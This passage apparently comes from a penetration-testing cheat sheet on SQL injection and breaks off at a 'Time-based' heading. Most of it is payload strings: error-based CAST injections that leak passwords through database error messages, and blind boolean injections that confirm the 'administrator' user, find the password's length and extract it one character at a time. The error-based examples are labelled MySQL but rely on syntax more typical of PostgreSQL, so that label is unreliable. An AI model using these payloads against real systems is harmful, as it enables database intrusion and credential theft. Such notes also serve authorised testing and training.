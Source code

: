 We might be able to gather information of the database by leading the error message. We can construct SQLi while checking error messages.  
Here are MySQL injection examples.

```html
' AND 1=CAST((SELECT 1) AS int)-- -
' AND 1=CAST((SELECT password FROM users) AS int)-- -
<!-- Limit only one row if required -->
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)
```

In the example above, we may see the password revealed in the error message.

<br /><br />

## Blind SQL

### 1. Check if the SQL Injection Works

```txt
' AND '1'='1
' AND '1'='2
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

### 2. Check if Content Value Exists

For example, check if username 'administrator' exists in 'users'

```txt
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

If so, determine the password length

```txt
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
...
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=8)='a
```

Brute force password's character

```txt
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='$a$
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='$a$
...
' AND (SELECT SUBSTRING(password,8,1) FROM users WHERE username='administrator')='$a$
```

<br /><br />

## Blind SQL (Time-based)

### 1. First Check
